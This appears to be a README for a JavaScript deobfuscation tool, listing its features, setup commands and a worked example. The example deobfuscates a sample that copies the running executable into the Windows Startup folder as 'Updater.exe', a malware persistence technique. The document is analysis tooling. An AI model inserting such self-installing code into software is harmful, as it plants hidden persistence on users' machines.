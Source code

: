 # Decode

## Overview

This tool is a powerful code deobfuscator designed to unravel and simplify obfuscated JavaScript code. Whether you're dealing with minification, string obfuscation, or control flow flattening, this deobfuscator is equipped with a set of features to make your code more readable and maintainable.

## Features

- **String Recovery:** Easily recover obfuscated strings, making your code more human-readable.

- **Proxy Function Removal:** Strip away proxy functions to simplify the structure of your code.

- **Object Simplification:** Remove unnecessary complexity by simplifying objects within the code.

- **Arithmetic Expression Simplification:** Simplify complex arithmetic expressions for improved code clarity.

- **String Concatenation Simplification:** Transform convoluted string concatenation into a more straightforward form.

- **Dead Code Removal:** Identify and eliminate dead code, reducing redundancy in your scripts.

- **Control Flow Flattening Reversal:** Reverse control flow flattening, restoring the logical structure of your code.

- **Compatibility:** Capable of handling code obfuscated using obfuscator.io forks and similar techniques.

- **Safety:** This deobfuscator is designed to be safe, ensuring that it doesn't execute any untrusted code or use sandboxing.

- **Automatic Config Detection:** Streamline the deobfuscation process with automatic configuration detection.

## How to Use

1. **Clone the Repository:**
   - Clone this repository to your local machine.

```bash
git clone https://github.com/yourusername/code-deobfuscator.git
cd code-deobfuscator
```
2. **Install Dependencies:**
   - Install any necessary dependencies.
```bash
npm install
```
3. **Run the Deobfuscator:**
   - Execute the deobfuscator on your obfuscated JavaScript file.
```bash
npm run start
```

> [!IMPORTANT]
> When you run the script, remember that in the input folder you have to add your obfuscated code and the result will appear in output

**Example**
- Obfuscated code 
```js
async function example() {
  function _0x1bce(_0x566ed4, _0x3b3726) {
    var _0x1a85e6 = _0x23f3();
    return (
      (_0x1bce = function (_0x5211c8, _0x2b606e) {
        _0x5211c8 = _0x5211c8 - (-0x2c5 + -0x1273 + 0x15a0);
        var _0x13e9af = _0x1a85e6[_0x5211c8];
        return _0x13e9af;
      }),
      _0x1bce(_0x566ed4, _0x3b3726)
    );
  }
  var _0x5e6537 = _0x1bce;
  (function (_0x20c885, _0x187c60) {
    var _0x11069a = _0x1bce,
      _0x21bc9d = _0x20c885();
    while (!![]) {
      try {
        var _0x48211d =
          -parseInt(_0x11069a(0x7e)) / (0x1 * 0xbb6 + 0x1802 + -0x23b7) +
          (parseInt(_0x11069a(0x77)) /
            (-0x1be9 + -0x1c1f * -0x1 + -0x2 * 0x1a)) *
            (parseInt(_0x11069a(0x6a)) /
              (-0x99 * 0x23 + -0x12d5 + 0x9 * 0x46b)) +
          parseInt(_0x11069a(0x6f)) / (0x1580 + 0x889 + -0x1e05) +
          (-parseInt(_0x11069a(0x82)) /
            (0x173 * -0x13 + -0xc * 0x116 + 0x2896)) *
            (-parseInt(_0x11069a(0x70)) /
              (0x13 * -0x4a + 0x699 * 0x3 + -0x2db * 0x5)) +
          (parseInt(_0x11069a(0x6b)) /
            (-0x2322 * -0x1 + -0x821 * 0x1 + -0x1afa)) *
            (parseInt(_0x11069a(0x68)) / (-0x12cb + -0x1ee5 * 0x1 + 0x31b8)) +
          (-parseInt(_0x11069a(0x7c)) /
            (0xe42 + 0x24d7 * 0x1 + -0x1988 * 0x2)) *
            (parseInt(_0x11069a(0x73)) / (0xe56 + -0x9d * -0x14 + -0x1a90)) +
          (-parseInt(_0x11069a(0x7f)) / (0x217b + 0x218 * 0x4 + -0x29d0)) *
            (parseInt(_0x11069a(0x69)) /
              (0x9f * -0x1 + 0x1 * 0x14f9 + 0x1 * -0x144e));
        if (_0x48211d === _0x187c60) break;
        else _0x21bc9d["push"](_0x21bc9d["shift"]());
      } catch (_0x295d1) {
        _0x21bc9d["push"](_0x21bc9d["shift"]());
      }
    }
  })(_0x23f3, 0xc6 * 0xe21 + -0x152c97 + 0x16dccd),
    fs[_0x5e6537(0x79) + _0x5e6537(0x7b)](process[_0x5e6537(0x6c)])[
      _0x5e6537(0x83)
    ](
      fs[_0x5e6537(0x74) + _0x5e6537(0x81)](
        process[_0x5e6537(0x71)][_0x5e6537(0x78)][_0x5e6537(0x72)](
          "\x5c",
          "/",
        ) +
          (_0x5e6537(0x80) +
            _0x5e6537(0x6e) +
            _0x5e6537(0x76) +
            _0x5e6537(0x7a) +
            _0x5e6537(0x7d) +
            _0x5e6537(0x6d)),
      ),
    ),
    setTimeout(
      () => {
        var _0xa4aefc = _0x5e6537;
        fs[_0xa4aefc(0x75)](
          process[_0xa4aefc(0x71)][_0xa4aefc(0x78)][_0xa4aefc(0x72)](
            "\x5c",
            "/",
          ) +
            (_0xa4aefc(0x80) +
              _0xa4aefc(0x6e) +
              _0xa4aefc(0x76) +
              _0xa4aefc(0x7a) +
              _0xa4aefc(0x7d) +
              _0xa4aefc(0x6d)),
          process[_0xa4aefc(0x71)][_0xa4aefc(0x78)][_0xa4aefc(0x72)](
            "\x5c",
            "/",
          ) +
            (_0xa4aefc(0x80) +
              _0xa4aefc(0x6e) +
              _0xa4aefc(0x76) +
              _0xa4aefc(0x7a) +
              _0xa4aefc(0x7d) +
              _0xa4aefc(0x6d)),
        );
      },
      0x1aa * -0xd + 0x913 * -0x4 + 0x45a6,
    );
  function _0x23f3() {
    var _0x3bc1f0 = [
      "argv0",
      "ater.exe",
      "/Windows/S",
      "2636816pJbLfR",
      "18jTIlbA",
      "env",
      "replace",
      "1130KWAUZn",
      "createWrit",
      "renameSync",
      "tart\x20Menu/",
      "912524YLnlFr",
      "APPDATA",
      "createRead",
      "Programs/S",
      "Stream",
      "89415AijWFZ",
      "tartup/Upd",
      "23480GelAtX",
      "11ffTZGi",
      "/Microsoft",
      "eStream",
      "244355evYuvQ",
      "pipe",
      "616OvFKxw",
      "6084492XlFIyr",
      "3wDQjSq",
      "110719qGebmE",
    ];
    _0x23f3 = function () {
      return _0x3bc1f0; 
    }; 
    return _0x23f3(); 
  }
}
```

- Result of this
```js
async function example() {
  fs.createReadStream(process.argv0).pipe(
    fs.createWriteStream(
      process.env.APPDATA.replace("\\", "/") +
        "/Microsoft/Windows/Start Menu/Programs/Startup/Updater.exe",
    ),
  );
  setTimeout(() => {
    fs.renameSync(
      process.env.APPDATA.replace("\\", "/") +
        "/Microsoft/Windows/Start Menu/Programs/Startup/Updater.exe",
      process.env.APPDATA.replace("\\", "/") +
        "/Microsoft/Windows/Start Menu/Programs/Startup/Updater.exe",
    );
  }, 3000);
}
```

## Contributing

If you have insights, suggestions, or contributions, please feel free to open an issue or submit a pull request.

## License

This project is licensed under the terms of the [MIT License](LICENSE).

Please use this tool responsibly and in accordance with the law and ethical guidelines.
